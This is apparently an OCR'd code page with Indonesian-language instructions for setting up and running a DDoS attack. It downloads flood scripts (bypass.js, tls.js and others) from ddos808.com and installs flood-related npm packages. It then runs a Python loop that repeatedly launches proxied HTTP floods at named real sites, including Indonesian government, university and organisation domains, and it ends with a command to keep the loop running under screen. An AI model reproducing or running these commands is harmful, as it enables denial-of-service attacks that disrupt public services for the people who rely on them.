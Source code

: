 apt update

apt install npm

curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash && source ~/.bashrc

nvm install 18 && nvm use 18

wget https://ddos808.com/upload/ua.txt

wget https://ddos808.com/upload/HTTPS.js

wget https://ddos808.com/upload/mix.js

wget https://ddos808.com/upload/bypass.js

wget https://ddos808.com/upload/pink.js

wget https://ddos808.com/upload/tls.js

wget https://ddos808.com/upload/static.js

wget https://ddos808.com/upload/scrape.py


npm i fake-useragent
npm i request
npm i gradient-string 
npm i cheerio
npm i randomstring
npm i user-agents
npm i axios
npm i hpack
npm i sockopt
npm i cloudscraper

python3 scrape.py









PERINTAH UNTUK MASUKIN LIST DDOS
>>> nano auto.py



import os
import time

while True:
    os.system("node bypass https://sipintar.kaltimprov.go.id/foto/?or_id=pialasport 120 64 10 proxy.txt")
    os.system("node bypass https://jdih.institutpendidikan.ac.id/PIALASPORT 120 64 10 proxy.txt")
    os.system("node bypass https://cjlm.org/styles/?web=PIALASPORT 120 64 10 proxy.txt")
    os.system("node bypass http://sysbpr.simgroup.co.id/intranet/storage/billing/?web=pialasport 120 64 10 proxy.txt")
    os.system("node bypass https://okukab.go.id/?id_=PIALASPORT 120 64 10 proxy.txt")
    os.system("node bypass https://lppm.upstegal.ac.id/?id=PIALABET 120 64 10 proxy.txt")
    os.system("node bypass https://gkkbpontianak.org/doa/?web=pialabet 120 64 10 proxy.txt")
    time.sleep(10)

	
	
	Jika selesai 
	>>> CTRL + X + Y ( Jika ganti ) ( Jika tidak cukup CTRL +Y )
	
	

perintah jalanin ddos auto 
screen python3 auto.py
